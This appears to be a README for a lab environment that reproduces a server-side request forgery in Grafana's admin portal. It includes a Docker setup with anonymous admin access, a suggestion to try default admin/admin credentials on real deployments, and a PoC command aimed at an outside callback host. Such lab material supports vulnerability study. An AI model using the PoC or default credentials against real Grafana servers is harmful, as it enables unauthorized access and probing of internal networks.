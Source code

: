 # Grafana Admin Portal SSRF

[中文版本(Chinese version)](README.zh-cn.md)

Grafana is a multi-platform open source analytics and interactive visualization web application.

The admin user is able to make requests to an unintended location in all versions of Grafana.

References:

- <https://github.com/RandomRobbieBF/grafana-ssrf>

## Vulnerable environment

Execute following command to start a Grafana 8.5.4:

```
docker compose up -d
```

Then you can see the portal page for Grafana without the authentication in `http://your-ip:3000`, because this server enabled the anonymous as admins by:

```ini
[auth.anonymous]
enabled = true
org_role = Admin
```

If Grafana ask you for user credentials in real world, can try default `admin` and `admin`.

## Vulnerability Reproduce

Use [this POC](https://github.com/RandomRobbieBF/grafana-ssrf) to reproduce the SSRF:

```
python grafana-ssrf.py -H http://your-ip:3000 -u http://example.interact.sh/attack
```

![](1.png)

As you can see, I got the request from Grafana:

![](2.png)
